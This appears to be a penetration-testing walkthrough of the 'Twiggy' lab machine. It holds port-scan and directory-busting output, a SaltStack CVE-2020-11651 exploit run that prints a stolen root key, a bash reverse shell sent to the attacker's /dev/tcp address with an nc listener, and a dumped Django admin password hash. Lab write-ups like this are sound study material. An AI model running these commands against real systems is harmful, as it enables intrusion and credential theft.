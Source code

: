 # Recon

I do my initial scan to see which ports and services are open.

## nmapAutomator.sh Full
```
$ sudo ./nmapAutomator.sh -H twiggy.pg -t Full -o full

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
```

# Enumeration

## Port 22 - OpenSSH 7.4

## Port 53 - NLnet Labs NSD

## Port 80 - nginx 1.16.1

### Feroxbuster (Dir Busting)

```
$ feroxbuster -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://twiggy.pg/ -o files.txt -r -x js

200      GET      273l      394w     6927c http://twiggy.pg/
500      GET        7l       13w      177c http://twiggy.pg/search.php/contact.php
500      GET        7l       13w      177c http://twiggy.pg/search.php/login.html
500      GET        7l       13w      177c http://twiggy.pg/advanced_search.php/subscription.php
500      GET        7l       13w      177c http://twiggy.pg/memberlist.php/cron.php
500      GET        7l       13w      177c http://twiggy.pg/memberlist.php/index.php
500      GET        7l       13w      177c http://twiggy.pg/wp-login.php/recommend.php
200      GET      273l      394w     6927c http://twiggy.pg/
200      GET        4l        7w      530c http://twiggy.pg/sitemap.xml
200      GET      273l      394w     6927c http://twiggy.pg/
200      GET      277l      356w     6138c http://twiggy.pg/search/
200      GET      354l      470w     7946c http://twiggy.pg/contact/
200      GET      161l      284w     4251c http://twiggy.pg/admin/login/?next=/admin/
200      GET      313l      350w     6252c http://twiggy.pg/blog/
```

### Feroxbuster (File Busting)

## Ports 4505 & 4506 - ZeroMQ ZMTP 2.0

https://github.com/jasperla/CVE-2020-11651-poc
![373e815aa520362e3a9cfc7031aec68f.png](../_resources/373e815aa520362e3a9cfc7031aec68f.png)

`root key obtained: sxZXn5kSJ8GhLjvneaBPMAoMlbqbUNuZ2drFuheYR8r/goL8Iij0bGn7at8vI4Md1I5ESLm3+aw`

![03fdfcb00ca1d33a1fe5deb09d5677c1.png](../_resources/03fdfcb00ca1d33a1fe5deb09d5677c1.png)

`python3 exploit.py --master 192.168.70.62 --exec "ping 192.168.49.70"`

![b04030ace7803b85e7ed4c8282765e7c.png](../_resources/b04030ace7803b85e7ed4c8282765e7c.png)

`sudo tcpdump -i tun0 icmp`

![ffe57665d08820b789f52ad0d24b2996.png](../_resources/ffe57665d08820b789f52ad0d24b2996.png)

`python3 exploit.py --master 192.168.70.62 --exec "bash -i >& /dev/tcp/192.168.49.70/80 0>&1"`

![f59d31cd3ee31ca4dc9a76a562e168e8.png](../_resources/f59d31cd3ee31ca4dc9a76a562e168e8.png)

`sudo nc -nlvp 80`

![ce6704036c74e5cab812198a9fccf58e.png](../_resources/ce6704036c74e5cab812198a9fccf58e.png)

## Port 8000 - nginx 1.16.1



![curl-salt-resp.png](../_resources/curl-salt-resp.png)

# PrivEsc



![netstat.png](../_resources/netstat.png)

```
[root@twiggy bin]# cat /etc/*-release
cat /etc/*-release
CentOS Linux release 7.8.2003 (Core)
NAME="CentOS Linux"
VERSION="7 (Core)"
ID="centos"
ID_LIKE="rhel fedora"
VERSION_ID="7"
PRETTY_NAME="CentOS Linux 7 (Core)"
ANSI_COLOR="0;31"
CPE_NAME="cpe:/o:centos:centos:7"
HOME_URL="https://www.centos.org/"
BUG_REPORT_URL="https://bugs.centos.org/"

CENTOS_MANTISBT_PROJECT="CentOS-7"
CENTOS_MANTISBT_PROJECT_VERSION="7"
REDHAT_SUPPORT_PRODUCT="centos"
REDHAT_SUPPORT_PRODUCT_VERSION="7"

CentOS Linux release 7.8.2003 (Core)
CentOS Linux release 7.8.2003 (Core)
[root@twiggy bin]#
```



![setuid-mezz.png](../_resources/setuid-mezz.png)

```
[root@twiggy helloworld]# strings dev.db | grep pass
strings dev.db | grep pass
CREATE TABLE "auth_user" ("id" integer NOT NULL PRIMARY KEY AUTOINCREMENT, "password" varchar(128) NOT NULL, "last_login" datetime NULL, "is_superuser" bool NOT NULL, "first_name" varchar(30) NOT NULL, "last_name" varchar(30) NOT NULL, "email" varchar(254) NOT NULL, "is_staff" bool NOT NULL, "is_active" bool NOT NULL, "date_joined" datetime NOT NULL, "username" varchar(150) NOT NULL UNIQUE)
[root@twiggy helloworld]# trings dev.db | grep admin
trings dev.db | grep admin
bash: trings: command not found
[root@twiggy helloworld]# strings dev.db | grep
strings dev.db | grep
Usage: grep [OPTION]... PATTERN [FILE]...
Try 'grep --help' for more information.
[root@twiggy helloworld]# strings dev.db | grep admin
strings dev.db | grep admin
django_admin_log
adminlogentry
adminlogentry
pbkdf2_sha256$36000$A93UEkgg6foD$gVXfNmWINKueb3t2T3bcajJWaad4jEyi13yvlV0IqaM=example@example.com2020-05-18 08:00:09.184436admin
tabledjango_admin_logdjango_admin_log"CREATE TABLE "django_admin_log" ("id" integer NOT NULL PRIMARY KEY AUTOINCREMENT, "object_id" text NULL, "object_repr" varchar(200) NOT NULL, "action_flag" smallint unsigned NOT NULL, "change_message" text NOT NULL, "content_type_id" integer NULL REFERENCES "django_content_type" ("id"), "user_id" integer NOT NULL REFERENCES "auth_user" ("id"), "action_time" datetime NOT NULL)
Qindexdjango_admin_log_content_type_id_c4bce8ebdjango_admin_log
CREATE INDEX "django_admin_log_content_type_id_c4bce8eb" ON "django_admin_log" ("content_type_id")
1indexdjango_admin_log_user_id_c564eba6django_admin_log CREATE INDEX "django_admin_log_user_id_c564eba6" ON "django_admin_log" ("user_id")
	admin
GAadmin0002_logentry_remove_auto_add2020-05-18 08:00:07.0577120
%Aadmin0001_initial2020-05-18 08:00:07.017129/
[root@twiggy helloworld]# 
```